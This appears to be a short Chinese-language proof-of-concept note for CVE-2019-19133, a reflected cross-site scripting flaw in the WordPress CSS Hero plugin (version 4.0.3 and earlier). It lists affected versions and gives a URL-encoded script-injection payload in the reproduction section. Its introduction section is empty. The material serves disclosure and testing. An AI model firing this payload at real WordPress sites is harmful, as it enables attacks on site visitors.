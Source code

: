 （CVE-2019-19133）WordPress Plugin - CSS Hero 4.0.3 反射xss
===========================================================

一、漏洞简介
------------

二、漏洞影响
------------

CSS Hero插件 (\<= v.4.0.3)

三、复现过程
------------

首先WordPress应用中确保CSS Hero Plugin安装。

poc

    hxxp://
    0-sec.org/?csshero_action=edit_page&rand=1015&foo%22%3E%3C/iframe%3E%3Cscript%3Ealert(%27Reflected%20XSS%20in%20CSS%20Hero%204.0.3%27)%3C/script%3E%3Ciframe%3Ebar
